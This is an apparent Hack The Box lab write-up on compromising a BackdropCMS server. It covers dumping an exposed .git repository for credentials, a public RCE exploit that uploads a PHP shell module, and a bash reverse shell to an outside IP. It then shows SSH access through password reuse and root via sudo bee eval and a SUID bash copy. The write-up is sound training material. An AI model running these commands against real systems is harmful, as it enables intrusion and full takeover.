# Write-Up: Dog - Easy

>  Platform: Hack The Box\
>  OS: Linux\
>  Difficulty: Easy\
>  Author: Fokos Nikolaos\
>  Completion Date: 04-07-2025\
>  Objective: Capture `user.txt` and `root.txt` flags



# Summary
This writeup documents the full exploitation of the "Dog" machine on Hack The Box. The target runs an instance of BackdropCMS v1.27.0 on a Linux web server. We find exposed a .git directory that contains the full repository tree and reveals credentials and internal files. Using these, we access the admin panel, uploading a reverse shell module via a Backdrop RCE exploit. Further enumeration leads to SSH access as a system user due to credential recycling. Privilege escalation is achieved via a Backdrop management utility, which allows arbitrary PHP code execution as root. Final access to a root shell is granted through a custom SUID bash shell. The machine combines web enumeration, source code analysis, and CMS-specific privilege escalation — an excellent example of chaining low-hanging misconfigurations for full compromise.

---

## Target Enumeration
### Nmap Scan
`nmap -sV -sC -F 10.129.231.223`

#### Parameters:
- `-sV` Used to print the version of found services.
- `-sC` Used to print more details about found services.
- `-F` Scan the 1000 commonly used ports.

We begin by scanning our target IP address using nmap. We search for open ports and their service version, along with some more information.

The results of the scan show some interesting information about our target. We can find an exposed **.git** directory and an accessible **robots.txt** file.



Let's keep this information for later and focus on further enumeration on the targets web page.

---

## Web Enumeration
We can load directly the page hosted on our target using it's IP address, 10.129.231.223:80 or we can write the domain on **/etc/hosts**.

`echo "10.129.231.223 dog.htb | sudo tee -a /etc/hosts`

Browsing the page like a normal user, trying to collect as much information as we can, we find a Login page and some other details like **BackdropCMS** used to power the website, and a support email **support@dog.htb** on the **About** section.

We can inspect the code further using **CTRL + u** to see if we can find anything useful on the page's source code.

Focusing on the Login page. We have a simple login form with and additional **reset password** tab.

Trying common SQL Injection techniques like `'admin OR 1=1` have no result. If we insert the previously found email on the reset password form we receive an error message.

 

Let's take a step further on our enumeration attempts and use `gobuster` or `dirsearch` to see if we can find other endpoints on the targets page.

`dirsearch -u http://dog.htb`

From the results we can see the **.git** directory and **robots.txt** file nmap detected previously, along some additional endpoints like `/themes`, `/sites` and `/core`.





Visiting `http://dog.htb/.git` we can find the complete git source of the webpage.



Inside `http://dog.htb/.git/refs/heads/master` we can find the master branch HEAD hash. Which we can use to track recent changes to the branch and who made them.

We can dump the .git directory on our machine using tools like `git-dumper`.

`git-dumper http://dog.htb/.git dog`

Inside the directory containing the page's complete source code, we can find an additional file previously hidden `settings.php`.

In the file we find exposed database configuration settings including credentials.


Noting the credentials, we can continue searching further for useful information. We can find inside `profiles/testing/testing.info` the BackdropCMS's version `1.27.0`.

We can copy the hash from `master` and use it to show more details about latest changes.

Additionally we can search for `@dog.htb` emails since we found a reference to this domain on `http://dog.htb/.git/logs/HEAD`



`git show 8204779c764abd4c9d8d95038b6d22b6a7515afa | grep @dog.htb`

Searching the source of the latest commit with `grep`, we can find a reference to the known dog@dog.htb and an additional email named tiffany@dog.htb.



We can use what we have currently and try logging in the webpage.

Let's try with:
- Email: `tiffany@dog.htb`
- Password: `BackDropJ2024DS2024`

We successfully logged in tiffany's dashboard!

Enumerating the dashboard page we can see a lot of available functions, but the one that stands out is the `Functionality/Install new modules` section.

It seems we can manually install various modules, by uploading `.tar.gz` files.

---

## Exploitation
Currently we have admin access to the webpage and we know the BackdropCMS version it uses.

Searching for known exploits on exploitdb using `searchsploit backdrop` we can find one about the version we are looking for.



We can use the exploit to generate a malicious `shell.zip` module that contains a reverse shell `.php` where upon execution will grant us a remote code execution shell.

`python3 /usr/share/exploitdb/exploits/php/webapps/52021.py http://dog.htb`



Next we need to convert `shell.zip` to a `.tar.gz` as the webpage suggests.

```
unzip shell.zip -d shell
tar -czf shell.tar.gz shell
```



After successfully uploading the module, we can browse to the webpage `http://dog.htb/modules`that stores all the modules.

Inside the directory we can find our shell.php and execute it.



By executing `shell.php`, a remote code execution shell will spawn, where we can run system commands. In this case we need access to a reverse shell. For this purpose we setup a listener `nc -lvnp 8888` and execute the following command `bash -c 'bash -i >& /dev/tcp/10.10.14.76/8888 0>&1'` as shown by the following image.



After executing our reverse shell command we get response on our listener and finally have access to the system.



We are not logged in as a system user yet, we have very limited access that limits us to basic functions as `www-data`.

We can find the system's users using the `/etc/passwd` file.

Inside `/etc/passwd` we got some interesting findings. There are two system users named `jobert` and `johncusack`. We can check if we have a credential recycling situation by trying to connect on the system using `ssh` and the mentioned usernames.

We try the following.

`ssh jobert@10.129.231.223`

But in return we get `Permission Denied`. We can try the next user.

`ssh johncusack@10.129.231.233`

Indeed the password `BackDropJ2024DS2024` worked and we are finally logged in as a system user!

---

## User Flag
After logging in as `johncusack` we can now simply `ls` and we find inside the `/home/johncusack` directory the user flag `user.txt`.

`cat user.txt`

And we captured the user flag!



---

## Privilege Escalation
For the climb, we can first try basic techniques and see if we can get something useful.

We run `sudo -l` to check for binaries that `johncusack` can execute as **SuperUser**.

Since `BackDropJ2024DS2024` is used as an `ssh` password, nothing stops it from being re-used as a user password.



We can see that `johncusack` can run `/usr/local/bin/bee` as root.

Now it's time to investigate the `bee` binary and learn how it's used and what we can make out of it.

Let's try running it and see what's the output.

`/usr/local/bin/bee --help`

From the output we can understand it is used as a Backdrop management utility, offering various functions to configure a Backdrop installation .

We can find an interesting functiuon called `eval` that allows PHP code execution after bootstrapping Backdrop.



Using the root directory of Backdrop at `/var/www/html`, where we can find the complete source tree, we can execute PHP code as follows.

Specifying the root of Backdrop using the `--root` parameter found in the `--help` output of `bee`, `eval` executes commands.

`sudo /usr/local/bin/bee --root=/var/www/html eval "system('whoami')"`


The output of `whoami` proves that we can execute commands as root.

We copy `/bin/bash` to `/tmp` and make a SUID shell.

`sudo /usr/local/bin/bee --root=/var/www/html eval "system('cp /bin/bash /tmp/bash && chmod u+s /tmp/bash')"`



Next we spawn the root shell using `/tmp/bash -p`.



---

## Root Flag
As root we can now capture the root flag.

`pwd` indicates that we are on `/home/johncusack`.

We can simply `cd /root` and `cat root.txt`

The root flag is ours!



---

## Vulnerabilities
- Exposed git source tree as a web endpoint.
- Credential recycling.
- Outdated software
- Partially unrestricted use of root privileges.

---

## Learning Outcome
This machine demonstrated the importance of avoiding credential reuse. I also learned how to exploit the upload functions of a webpage to gain access. Using a Backdrop utility to execute PHP commands as root, I learned how to create a SUID shell granting me complete control of the system.

---

## Tools Used
- nmap, dirsearch, netcat, searchsploit.

---

## References
- https://www.exploit-db.com/exploits/52021
